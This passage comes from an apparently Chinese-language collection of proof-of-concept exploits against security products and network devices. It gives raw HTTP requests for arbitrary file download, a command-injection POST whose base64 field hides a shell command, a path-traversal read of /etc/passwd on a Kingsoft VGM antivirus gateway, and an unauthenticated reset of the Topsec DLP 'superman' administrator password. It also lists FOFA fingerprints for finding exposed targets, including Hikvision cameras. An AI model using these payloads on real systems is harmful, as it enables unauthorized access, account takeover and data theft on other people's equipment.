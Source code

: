 ```
/htmltopdf/downfile.php?filename=downfile.php
```

##### pdf_maker.php 命令执行

```
POST /inter/pdf_maker.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```

#### 金山 VGM防毒墙 

FOFA：

```
"金山VGM"
```

##### downFile.php 任意文件读取

poc：

```
/downFile.php?filename=../../../../etc/passwd
```

### 0x02 数据防泄漏系统

#### 天融信数据防泄漏系统

##### 越权修改管理员密码

无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

```
POST /?module=auth_user&action=mod_edit_pwd

Cookie: username=superman;
uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```

## 四、其他

### 0x01 网络摄像机

#### HIKVISION DS/IDS/IPC 等设备

FOFA：

```
"671-1e0-587ec4a1"
```
